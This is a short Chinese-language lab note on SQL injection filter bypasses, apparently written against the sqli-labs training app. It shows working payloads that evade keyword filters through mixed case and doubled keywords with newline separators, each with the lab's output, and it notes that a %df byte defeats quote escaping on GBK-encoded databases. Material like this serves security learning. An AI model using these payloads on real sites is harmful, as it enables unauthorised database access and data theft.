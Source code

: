 **使用大小写绕过**

```mysql
?id=-1'%0AuNion%0AsElect%0A1,2,3%0Aor%0A'1'='1
Hint: Your Input is Filtered with following result: 1' uNion sElect 1,2,3 or '1'='1
Your Login name:Dumb
Your Password:Dumb
-- 可以使用大小写绕过
```

**使用复写绕过**

```mysql
?id=-1'%0Aununionion%0AseleSelectct%0A1,2,3%0Aor%0A'1'='1
Hint: Your Input is Filtered with following result: 1' union select 1,2,3 or '1'='1
Your Login name:Dumb
Your Password:Dumb
-- 可以使用复写绕过
```

------

## 宽字节绕过

只适用于**GBK**编码的数据库
结论：闭合单引号前加 %df 即可

------

